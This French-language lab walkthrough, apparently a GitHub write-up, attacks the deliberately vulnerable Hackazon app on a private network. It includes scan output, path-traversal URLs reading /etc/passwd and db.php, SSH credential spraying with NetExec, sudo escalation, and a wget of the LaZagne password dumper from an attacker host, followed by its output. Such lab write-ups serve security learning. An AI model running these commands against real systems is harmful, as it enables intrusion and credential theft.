 # Hackazon

1.Énumération

**<span style="color: #dddddd;">👁️</span> Massap**

```
┌─[parrot@parrot]─[~/Documents]
└──╼ $sudo sh massap.sh

   *                                
 (  `                               
 )\))(      )             )         
((_)()\  ( /(  (   (   ( /(  `  )   
(_()((_) )(_)) )\  )\  )(_)) /(/(   
|  \/  |((_)_ ((_)((_)((_)_ ((_)_\  
| |\/| |/ _` |(_-<(_-</ _` || '_ \) 
|_|  |_|\__,_|/__//__/\__,_|| .__/  
                            |_|     

by M0rPH3U53
      
[i] Scan IP: 192.168.56.75
[i] Rate: 1000
 
[+] Scan Masscan 192.168.56.75...100%
[+] Scan Nmap 192.168.56.75...100%

[+] 80/tcp open
[+] 22/tcp open

==========================================================
|                         Rapports                       |
==========================================================
| Nmap:/home/parrot/Massap/192.168.56.75-tcp.html        |
==========================================================
```

&nbsp;

<span style="color: #dddddd;">⚡</span> **ZAP**

Rapport après fin de scan

![Capture du 2025-02-09 18-32-13](https://github.com/user-attachments/assets/f7a15fbf-7606-4783-9636-25fb2b55b3a2)

&nbsp;

Traverser de chemin

[http://192.168.56.75/account/documents?page=…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F /etc/passwd](http://192.168.56.75/account/documents?page=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F%20/etc/passwd)

![path_traversal](https://github.com/user-attachments/assets/e91a4263-7b0e-4f02-9d97-60b3d5710e88)


&nbsp;

Allons voir le fichier `db.php`

[http://192.168.56.75/account/documents?page=…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F /var/www/hackazon/assets/config/db.php](http://192.168.56.75/account/documents?page=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F%20/var/www/hackazon/assets/config/db.php)

![injection_commande](https://github.com/user-attachments/assets/c43652d6-7621-4f0e-91c7-e967294ca101)

&nbsp;

**<span style="color: #dddddd;">🖥️</span> NetExec**

Test en `SSH` des identifiant trouver

```
┌─[parrot@parrot]─[~]
└──╼ $nxc ssh 192.168.56.75 -u hackazon -p hackazon --sudo-check
SSH         192.168.56.75   22     192.168.56.75    [*] SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.10
SSH         192.168.56.75   22     192.168.56.75    [+] hackazon:hackazon (Pwn3d!) Linux - Shell access!
```

&nbsp;

L’utilisateur `hackazon` fais parti du groupe `sudo`

```
hackazon@ubuntu:~$ sudo -s
[sudo] password for hackazon: 
root@ubuntu:~# 
```

&nbsp;

****<span style="color: #dddddd;">👾</span>** LaZagne**

Téléchargement du fichier zip

```
root@ubuntu:~# wget 192.168.56.104:8080/LaZagne-2.4.6.zip
--2025-02-09 09:06:38--  http://192.168.56.104:8080/LaZagne-2.4.6.zip
Connecting to 192.168.56.104:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 705000 (688K) [application/zip]
Saving to: 'LaZagne-2.4.6.zip'

LaZagne-2.4.6.zip                               100%[=====================================================================================================>] 688.48K  --.-KB/s    in 0.008s  

2025-02-09 09:06:38 (79.1 MB/s) - 'LaZagne-2.4.6.zip' saved [705000/705000]
```

&nbsp;

Unzip

```
root@ubuntu:~# unzip LaZagne-2.4.6.zip
Archive:  LaZagne-2.4.6.zip
3ed06c785c417a77c2bc9a09987060425249036d
   creating: LaZagne-2.4.6/
```

&nbsp;

Exécution

```
root@ubuntu:~/LaZagne-2.4.6/Linux# python3 laZagne.py all

|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|

------------------- Shadow passwords -----------------

[+] Password found !!!
Login: hackazon
Password: hackazon

------------------- Mimipy passwords -----------------

[+] Password found !!!
Process: /usr/sbin/sshd
Login: hackazon
Password: hackazon


[+] 2 passwords have been found.
For more information launch it again with the -v option

elapsed time = 0.5735633373260498
```

&nbsp;

Cred trouver

| Users | Password |
| --- | --- |
| hackazon | hackazon |
